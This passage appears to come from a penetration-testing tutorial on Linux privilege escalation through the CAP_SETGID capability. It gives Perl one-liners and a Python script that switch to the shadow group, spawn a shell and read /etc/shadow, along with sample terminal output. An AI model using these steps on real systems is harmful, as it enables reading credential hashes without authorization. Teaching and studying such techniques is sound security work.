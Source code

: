 Run this Perl code:

```python
./perl -e 'my $gid = 42; $< = $gid; $> = $gid; exec("/bin/bash");'
./perl -e '$) = 42; exec("/bin/bash");'   
```

In this case, the `shadow` group was impersonated so we can read the file `/etc/shadow`:

```shell
user@pwn:~$ ls -l /etc/shadow
-rw-r----- 1 root shadow 1610 oct 25 25:45 /etc/shadow
user@pwn:~$ groups
shadow adm cdrom sudo dip plugdev lpadmin lxd sambashare user
user@pwn:~$ id
uid=1000(user) gid=42(shadow) grupos=42(shadow)
user@pwn:~$ cat /etc/shadow
root:$6$xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.:18918:0:99999:7:::
<...SNIP...>
```

## Python Example

Copy the Python binary to the current folder:

```sh
cp $(which python3) . 
```

The capability `CAP_SETGID` allows us to **set the `EGID` of the created process**.

```shell
user@pwn:~$ sudo /usr/sbin/setcap cap_setgid+ep ./python3
user@pwn:~$ getcap -r ./python3
./python3 = cap_setgid+ep
user@pwn:~$ vim setgid.py
```

View the groups:

```shell
user@pwn:~$ cat /etc/group | grep shadow
shadow:x:42:
```

Add this Python code:

```python
import os
os.setgid(42)
os.system("/bin/bash")
```

In this case, the `shadow` group was impersonated so we can read the file `/etc/shadow`:

```shell
user@pwn:~$ ./python3 setgid.py
user@pwn:~$ ls -l /etc/shadow
-rw-r----- 1 root shadow 1610 oct 25 25:45 /etc/shadow
user@pwn:~$ groups
shadow adm cdrom sudo dip plugdev lpadmin lxd sambashare user
user@pwn:~$ id
uid=1000(user) gid=42(shadow) grupos=42(shadow)
user@pwn:~$ cat /etc/shadow
root:$6$xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.:18918:0:99999:7:::
<...SNIP...>
```
